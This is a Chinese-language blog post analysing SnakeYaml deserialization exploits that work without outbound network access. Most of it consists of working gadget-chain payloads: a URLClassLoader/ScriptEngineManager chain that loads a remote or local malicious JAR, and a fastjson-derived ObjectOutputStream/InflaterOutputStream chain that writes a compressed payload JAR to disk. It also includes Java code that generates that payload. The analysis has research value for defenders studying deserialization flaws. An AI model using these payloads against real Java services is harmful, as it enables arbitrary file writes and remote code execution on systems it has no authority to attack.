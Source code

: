 ```yaml
---
layout: post
title: "SnakeYaml的不出网反序列化利用分析"
date: "2023-02-26T01:21:26.021Z"
---
```

SnakeYaml的不出网反序列化利用分析
=====================

SnakeYaml的常见出网利用方式：

    !!javax.script.ScriptEngineManager [
      !!java.net.URLClassLoader [[
        !!java.net.URL ["http://127.0.0.1:9000/yaml-payload.jar"]
      ]]
    ]
    

不出网利用方式：写入恶意文件，之后使用上面的利用链。

    !!javax.script.ScriptEngineManager [
      !!java.net.URLClassLoader [[
        !!java.net.URL ["file:D:\\yaml-payload.jar"]
      ]]
    ]
    

在java中的执行如下

    URL url = new URL("file:D:\\yaml-payload.jar");
    URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{url});
    ScriptEngineManager scriptEngineManager = new ScriptEngineManager(urlClassLoader);
    

写入文件的利用链来源于fastjson 1.2.68利用链，主要是分析这条链。

    {
      "@type": "java.lang.Exception",
      "@type": "java.io.MarshalOutputStream",
      "out": {
        "@type": "java.util.zip.InflaterOutputStream",
        "out": {
          "@type": "java.io.FileOutputStream",
          "file": "D:\\yaml-payload.jar",
          "append": "false"
        },
        "infl": {
          "input": "xxxxx"
        },
        "bufLen": 1048576
      },
      "protocolVersion": 1
    }
    

翻译成java执行方式大概是这样：

    byte[] code = Files.readAllBytes(Paths.get("D:\\Payload.jar"));
    byte[] b = new byte[code.length];
    Deflater deflater = new Deflater();
    //先对字节码压缩
    deflater.setInput(code);
    deflater.finish();
    deflater.deflate(b);
    FileOutputStream fileOutputStream1 = new FileOutputStream(new File("D:\\yaml-payload.jar"));
    Inflater inflater = new Inflater();
    //解压
    inflater.setInput(b);
    InflaterOutputStream inflaterOutputStream = new InflaterOutputStream(fileOutputStream1,inflater,1048576);
    //这里并没有用MarshalOutputStream，因为MarshalOutputStream构造方法，调用out参数，最终是给父类ObjectOutputStream的构造方法执行的，所以直接使用ObjectOutputStream好了。
    ObjectOutputStream objectOutputStream = new ObjectOutputStream(inflaterOutputStream);
    

从最外层开始看，ObjectOutputStream构造方法，顺利执行了InflaterOutputStream.write(buf, 0, pos);，最终得到写入效果。

    public ObjectOutputStream(OutputStream out) throws IOException {
            verifySubclass();
        	//this.out = InflaterOutputStream(fileOutputStream1,inflater,1048576);
            bout = new BlockDataOutputStream(out);
            handles = new HandleTable(10, (float) 3.00);
            subs = new ReplaceTable(10, (float) 3.00);
            enableOverride = false;
            writeStreamHeader();
        	//执行out.write
            bout.setBlockDataMode(true);
            if (extendedDebugInfo) {
                debugInfoStack = new DebugTraceInfoStack();
            } else {
                debugInfoStack = null;
        }
    }
    

然后看InflaterOutputStream的write方法。

    // Decompress and write blocks of output data
    do {
        //这里的inf是Inflater对象，对象中已经包含了要写入的内容，之前由setInput写入，inf的赋值是在InflaterOutputStream(fileOutputStream1,inflater,1048576)构造方法中赋值。并且构造方法还赋值了out为fileOutputStream1。
        //在inf.inflate(buf, 0, buf.length)中inf对象的字节码压缩后传递给buf，最终调用out.write(buf, 0, n)写入到文件
        n = inf.inflate(buf, 0, buf.length);
        if (n > 0) {
            out.write(buf, 0, n);
        }
    } while (n > 0);
    

这个链是给SnakeYaml做反序列化，可以这样写：

    !!java.io.ObjectOutputStream [!!java.util.zip.InflaterOutputStream [!!java.io.FileOutputStream [!!java.io.File ["D://yaml-payload.jar"],false],!!java.util.zip.Inflater  { input: 压缩过的字节码内容 },1048576]]
    

压缩过的字节码内容，需要生成，生成完了dump成SnakeYaml的效果。

    byte[] code = Files.readAllBytes(Paths.get("D:\\Payload.jar"));
    byte[] b = new byte[code.length];
    Deflater deflater = new Deflater();
    deflater.setInput(code);
    deflater.finish();
    deflater.deflate(b);
    
    Yaml yaml = new Yaml();
    String dump = yaml.dump(b);
    System.out.println(dump);
    =================================
    输出是这样的
    !!binary |-
      eJwL8GZmEWHg4OB......略
    

最终的写入利用链：

    !!java.io.ObjectOutputStream [!!java.util.zip.InflaterOutputStream [!!java.io.FileOutputStream [!!java.io.File ["D://yaml-payload.jar"],false],!!java.util.zip.Inflater  { input: !!binary eJwL8GZmEWHg4OBgEAsID2NAApwMLAy+riGOup5+bvr/TjEwMDMEeLNzgKSYoEoCcGoWAWK4Zl9HP0831+AQPV+3z75nTvt46....略 },1048576]]
    

![](https://img2023.cnblogs.com/blog/1639143/202302/1639143-20230225233703772-1646912898.jpg)